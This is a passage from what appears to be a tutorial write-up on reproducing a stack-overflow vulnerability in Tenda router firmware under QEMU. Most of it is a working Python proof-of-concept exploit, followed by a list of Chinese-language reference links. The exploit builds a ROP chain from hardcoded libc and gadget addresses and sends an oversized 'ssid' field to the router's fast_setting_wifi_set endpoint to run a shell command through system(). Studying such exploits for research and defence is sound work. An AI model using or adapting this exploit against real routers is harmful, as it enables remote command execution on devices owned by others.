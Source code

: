 ```
import requests
from pwn import *

cmd="echo hello"

'''
qemu-user
'''
#libc_base = 0xf659c000

'''
qemu-system
'''
libc_base = 0x76dab000
dosystemcmd = 0x76f930f0

system = libc_base + 0x5A270
readable_addr = libc_base + 0x64144
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload = 'a'*(0x60) + p32(readable_addr) + 'b'*(0x20-8)
payload+= p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd


url = "http://192.168.198.76/goform/fast_setting_wifi_set"
cookie = `{`"Cookie":"password=12345"`}`
data = `{`"ssid": payload`}`
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```



## Reference

[写给初学者的IoT实战教程之ARM栈溢出](https://www.anquanke.com/post/id/204326)<br>[Tenda漏洞环境搭建与复现](https://www.nosec.org/home/detail/4634.html)<br>[Tenda AC15 栈溢出漏洞调试](https://xz.aliyun.com/t/7357?spm=5176.12901015.0.i12901015.65db525cQBSuI3&amp;accounttraceid=1d7f8f3f083842dba12fa62662c34665asfk)<br>[ubuntu下qemu虚拟机实现和主机以及互联网通信](https://blog.csdn.net/qq_34160841/article/details/104901127)<br>[QEMU 网络配置一把梭](https://wzt.ac.cn/2019/09/10/QEMU-networking/)<br>[qemu虚拟机网桥通讯过程](https://www.cnblogs.com/xia-dong/p/11555625.html)
